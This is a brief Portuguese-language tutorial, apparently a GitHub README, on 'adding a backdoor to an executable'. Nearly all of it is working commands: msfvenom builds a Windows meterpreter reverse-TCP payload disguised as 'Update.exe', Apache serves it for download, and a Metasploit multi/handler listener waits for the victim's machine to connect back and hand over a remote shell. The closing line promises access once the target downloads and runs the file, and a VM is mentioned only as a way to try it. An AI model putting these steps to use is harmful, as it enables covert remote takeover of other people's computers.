 # Adicionando Backdoor em um executável

## Etapas a seguir

1. `msfvenom -p windows/meterpreter/reverse_tcp -a x86 plataform windows -f exe LHOST=000.000.00.0 LPORT=4444 -o Update.exe `

- Esse comando gera um executavel expecifico para windows, passando a arquitetura x86 , o ip tem que ser da maquina que vai se conectar e a porta pode ser qualquer uma !

2. Após isso é necessario copiar o Update.exe para o diretorio `/var/www/html` , `cp Update.exe /var/www/html`

3. Inicie o servidor do apache `service apache2 start`

4. Acesse o `msfconsole`

5. Use o comando `use multi/handler`

6. Depois use o comando `set payload windows/meterpreter/reverse_tcp`

7. set LHOST 123.000.00.0 (o ip da sua maquina)

8. set LPORT 4444 (A porta que você especificou no arquivo Update.exe)

9. Então enfim é só roda o comando `run`

## se o arquivo foi baixado no computador alvo você terá o acesso !

- é possivel testar usando uma vm , no navagador da vm, coloque o seu ip e acesse o caminho do ip /Update.exe , o dowload será feito na vm e ao executar será possível o acesso
